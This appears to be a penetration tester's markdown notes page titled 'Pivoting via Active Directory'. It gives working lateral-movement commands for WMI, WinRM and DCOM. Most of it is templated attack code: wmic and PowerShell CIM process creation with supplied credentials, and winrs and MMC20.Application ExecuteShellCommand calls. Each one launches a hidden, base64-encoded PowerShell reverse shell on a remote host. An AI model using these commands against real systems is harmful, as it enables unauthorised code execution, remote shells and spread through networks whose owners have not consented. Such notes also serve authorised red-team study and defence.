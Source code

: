 ```yaml
---
layout: blank
pagetitle: Pivoting via Active Directory
---
```


Useful when we can't install something like ligolo and pivot to compromise an internal machine

## Service Pivoting

**Windows Management Instrumentation**
- Facilitates task automation via creating processes
- Uses Remote Procedure Calls (RPC) over 135 for remote access
- Abusing `wmic` (recently deprecated, but still probably good) on DMZ
	- `wmic /node:{target_IP} /user:{domain_user} /password:{password} process call create "{process}"`
	- To use with powershell, we need to turn the password into a secure string and pass a reverse shell:

```Powershell
$username = '{domain_user}';
$password = '{password}';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName {target_IP} -Credential $credential -SessionOption $Options

$Command = 'powershell -nop -w hidden -e {reverse_shell_powershell_b64}';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

**WinRM**
- Communicates over 5986 and 5985 with XML via HTTP/HTTPS
- Use with `winrs -r:{target_dnshostname} -u:{domain_user} -p:{password} "cmd /c {command}"` or `winrs -r:{target_dnshostname} -u:{domain_user} -p:{password} "powershell -nop -w hidden -e {reverse_shell_powershell_base64}"`
- Can also be done via powershell

**DCOM**
- Good for lateral movement
- Exploits the Distributed Component Object Model (DCOM)
	- Used for creating software components that interact with each other
	- Local administrator access required
- Lateral movement attacks documented by [cybereason](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)
- Performed using built-in CreateInstance
	- `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","{target_IP}"))` 
	- `$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"{powershell -nop -w hidden -e {reverse_shell_powershell_base64}}","7")`
